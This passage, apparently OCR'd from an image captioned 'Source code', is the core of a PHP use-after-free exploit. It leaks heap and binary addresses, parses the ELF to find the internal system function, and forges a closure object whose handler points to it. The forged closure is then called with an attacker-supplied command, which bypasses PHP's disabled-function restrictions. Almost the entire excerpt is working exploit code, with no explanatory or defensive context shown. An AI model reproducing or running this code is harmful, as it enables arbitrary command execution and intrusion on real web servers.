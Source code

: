 ```php

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```
